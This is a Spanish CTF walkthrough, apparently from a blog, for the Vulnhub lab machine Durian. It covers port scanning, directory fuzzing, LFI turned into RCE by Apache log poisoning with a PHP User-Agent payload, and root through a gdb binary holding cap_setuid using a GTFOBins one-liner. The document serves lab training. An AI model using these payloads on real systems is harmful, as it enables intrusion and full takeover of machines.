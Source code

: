 ```yaml
---
layout: single
title: Durian - Vulnhub
date: 25/10/2023
classes: wide
header:
  teaser:

tags:
  - LFI > RCE - Abusing /proc/self/fd/X + Log Poisoning
  - Abusing capabilities (cap_setuid+ep on gdb binary)
  - Web Enumeration
  - fácil
  - linux
---
```


Para poder vulnerar esta máquina primero debemos hacer una enumeración web, en la cual obtendremos la dirección de un recurso PHP, del cual nos podemos aprovechar para poder llevar a cabo el LFI, a través de ahí contaminar el log de acceso de apache para poder ejecutar nuestro código malicioso PHP y convertirlo en un RCE, entablandonos una reverse shell para posterior a ello escalar privilegios,.


# PortScan
__________


```
nmap -sT -p22,80,7080,8088 192.168.204.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-25 18:23 AST
Nmap scan report for 192.168.204.152
Host is up (0.00080s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
7080/tcp open  empowerid
8088/tcp open  radan-http
MAC Address: 00:0C:29:CC:43:7D (VMware)
                                     
```


# Sitio Web
_______

![](/assets/images/durian/Pasted image 20231025182531.png)

# Fuzzing de Sitio Web.
_______

```
gobuster dir -u http://192.168.204.152 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

Que nos reportará los siguientes directorios de la máquina:
```
===============================================================
/icons/               (Status: 403) [Size: 280]
Progress: 90087 / 220561 (40.84%)             [ERROR] 2023/10/25 18:26:31 [!] Get "http://192.168.204.152/blog/": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/server-status/       (Status: 403) [Size: 280]
/cgi-data/            (Status: 200) [Size: 953]
                                               
```

Una vez vayamos al directorio "/cgi-data" veremos un recurso **.PHP** que dentro tendrá en comentarios como funciona el código.

![](/assets/images/durian/Pasted image 20231025182939.png)

es decir, que al poner el parámetro "**?file=**"  podemos aprovecharnos para hacer un LFI.

# LFI > Log Poisoning
_________

Hacemos una petición para poder identificarla en el log.
```
curl -s -X GET "http://192.168.204.153/probando" -H "User-Agent: <?php system('whoami'); ?>"
```

![](/assets/images/durian/Pasted image 20231025184632.png)


Hemos contaminado el Log, y también está ejecutando el código **.PHP**, por lo que podríamos subir un recurso qué podremos controlar desde la URL para entablarnos una reverse shell.

# BurpSuite 
_________

Nos aprovechamos del proxy Burpsuite, para agregar el código .PHP malicioso en el recurso que subiremos, para luego poder desde la URL poder controlar el comando, volviéndolo así un RCE.

Interceptamos esta petición:

![](/assets/images/durian/Pasted image 20231025185034.png)

Para modificar el "**User-Agent:**" desde el **Burpsuite** con el código .PHP malicioso qué deseemos, en este caso unos para controlar el código que queramos ejecutar desde la URL:

![](/assets/images/durian/Pasted image 20231025185353.png)

Para controlar desde la URL la ejecución de comando, como podemos ver:

![](/assets/images/durian/Pasted image 20231025185808.png]])
Y desde la URL ya podríamos entablarnos una Reverse Shell.

# Escalada de Privilegios.
_______

Buscamos capabilites.
```
www-data@durian:/tmp$ getcap -r / 2>/dev/null
/usr/bin/gdb = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
```
Vemos que está la la "**cap_setuid+ep**", qué investigando en el recurso [GTFOBINS](https://gtfobins.github.io/gtfobins/gdb/#capabilities) podemos volvernos **Root** aprovechándonos de esta capabilitie en "gdb".

```
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
```

![](/assets/images/durian/Pasted image 20231025195554.png)





